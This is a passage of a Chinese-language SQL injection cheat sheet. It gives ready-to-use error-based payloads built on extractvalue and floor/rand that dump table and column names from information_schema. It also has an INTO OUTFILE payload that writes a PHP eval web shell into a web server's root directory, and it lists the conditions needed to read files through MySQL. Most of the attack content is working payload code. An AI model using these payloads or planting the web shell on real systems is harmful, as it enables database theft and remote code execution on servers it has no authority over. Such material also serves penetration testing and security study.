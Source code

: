 #### extractvalue：

```sql
Extractvalue(xml_frag, xpath_expr) 函数使用XPath表示法从XML字符串中提取值。
xml_frag: 目标xml文档。
xpath_expr: 利用Xpath路径法表示的查找路径。
```

* 获取表名

```sql
'1' and (extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))) --+
```

* 获取字段名

```sql
'1' and (extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))) --+ 
```

#### floor：

> floor(x) 函数，向下取整,返回一个不大于 x 的值。

```sql
'1' and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a) --+
```

### 写文件

- [x] root 权限。
- [x] 网站绝对路径。

```sql
'-1' union select 1,"<?php @eval($_GET[x]);?>",3,4,5 into outfile 'C:/Inetpub/wwwroot/cc.php'
```

### 读文件

- [x] root 权限。
- [x] mysql.ini 中 secure_file_pri 为空，（在 Linux 下为 my.cnf，目录是`/etc/my.cnf`）。

读取 `secure_file_priv` 配置：

```sql
SHOW VARIABLES LIKE "secure_file_priv"
```

|值|说明|
|:-|:-|
|`null`|不允许导入导出|
|`/tmp`|只能在/tmp目录下导入导出|
|`空`|允许导入导出|
